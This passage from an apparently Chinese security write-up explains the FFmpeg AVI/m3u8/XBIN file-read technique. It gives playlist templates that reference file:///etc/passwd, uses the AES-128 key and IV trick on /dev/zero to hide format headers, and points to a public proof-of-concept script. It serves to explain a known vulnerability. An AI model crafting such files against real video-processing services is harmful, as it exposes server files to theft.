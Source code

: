 	[AVI header]  
	[GAB2 header]  
	[m3u8 header]  
	[XBIN header]  
	目标文件  
	[XBIN footer]  
	[m3u8 footer]  
	[AVI footer]  

但 FFmpeg 检查了 body 中的非法字符串，所以无法使用 data :对 XBIN 格式声明

	#EXTM3U
	#EXT-X-MEDIA-SEQUENCE:1
	#EXTINF:1.0,
	data:<format-header>  
	#EXTINF:1.0,
	file:///etc/passwd  
	#EXTINF:1.0,
	data:<format-footer>  
	#EXT-X-ENDLIST

但是m3u8支持AES128的CBC模式加密，可以在#EXT-X-KEY中进行设置，所以可以很简单加密m3u8的内容：

	…
	#EXTINF:1,
	#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>
	#EXT-X-BYTERANGE: 16
	/dev/zero
	…
	= AES^-1 CONST(0x00…00) ⊕<VAL> = <FMT HEADER>

由于m3u8单次访问目标文件获取到的内容不完整，为了获得完整的文件内容，还需要控制#EXT-X-BYTERANGE设置偏移量，然后重复这一部分

最终，我们得到的文件应该是这样的：

	[AVI header]
	[GAB2 header]
	[m3u8 header]
	{loop}
	#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>     #声明m3u8的AES加密，将XBIN部分加密
	[XBIN header]     #被加密
	目标文件
	[XBIN footer]    #被加密
	{loop}
	[m3u8 footer]
	[AVI footer]

利用[github上](https://github.com/neex/ffmpeg-avi-m3u-xbin "https://github.com/neex/ffmpeg-avi-m3u-xbin")的Python POC脚本生成含有SSRF攻击的avi格式视频。脚本使用方法：

![ffmpeg]({{ site.baseurl }}/images/ffmpeg/5.png)

通过命令行查看生成的avi视频源码：

![ffmpeg]({{ site.baseurl }}/images/ffmpeg/6.png)
